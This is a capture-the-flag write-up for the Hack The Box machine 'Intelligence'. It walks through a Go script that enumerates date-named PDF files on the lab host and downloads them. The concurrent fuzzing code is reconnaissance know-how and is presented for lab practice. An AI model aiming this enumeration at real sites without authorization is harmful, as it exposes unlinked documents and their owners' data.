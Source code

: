 # Hack The Box. Machines. Intelligence

Machine write-up: https://7rocky.github.io/en/htb/intelligence

### `reqPdf.go`

There is a website at `intelligence.htb` that provides two PDF files named: `2020-01-01-upload.pdf` and `2020-12-15-upload.pdf`. These files contain useful information as metadata, however not enough to continue with the exploitation.

Looking at the filenames, we can try to retrieve more PDF files that have the same format (namely, `YYY-MM-DD-upload.pdf`).

For that purpose, we can write a simple Go script. First, let's write the function called `requestPdf` to request a file given a date:

```go
func requestPdf(year, month, day int) {
	filename := fmt.Sprintf("%d-%02d-%02d-upload.pdf", year, month, day)
	res, err := http.Get("http://intelligence.htb/documents/" + filename)

	if err != nil {
		panic(err)
	}

	defer res.Body.Close()

	if res.StatusCode == 200 {
		body, err := ioutil.ReadAll(res.Body)

		if err != nil {
			panic(err)
		}

		writeToPdf(filename, body)
	}
}
```

The process is simple, we generate the filename using `fmt.Sprintf` to format the year, month and day correctly. After that, we set the URL and make the GET request. If the status code is 200 (for instance 200 OK), then the file exists and we need to write the response body into a file.

To write these contents to a file, we use the function `writeToPdf`:

```go
func writeToPdf(filename string, content []byte) {
	file, err := os.Create(filename)

	if err != nil {
		panic(err)
	}

	_, err = file.Write(content)

	if err != nil {
		panic(err)
	}
}
```

This function just creates the file and writes the contents to it.

Then, we add the `main` function:

```go
func main() {
	fmt.Println("Fuzzing PDF files of the form: YYYY-MM-DD-upload.pdf")

	start := time.Now()
	year := 2020

	for month := 1; month <= 12; month++ {
		for day := 1; day <= 31; day++ {
			requestPdf(year, month, day)
		}
	}

	fmt.Printf("Found all files in %s\n", time.Since(start))
}
```

To merge all these functions and add concurrency to the program, we can make use of `go` functions and the `sync` package. The number of threads has been set to `50`. As a result, all requests (12 · 31 = 372) are done at the same time and the downloading process will be shorter:

```console
$ go run reqPdf.go
Fuzzing PDF files of the form: YYYY-MM-DD-upload.pdf
Found 84 files in 784.6615ms
```

**Note:** The previous code snippets are shown only as an explanation, the complete source code is a bit different due to the concurrency functionality, some global variables and the imported packages.
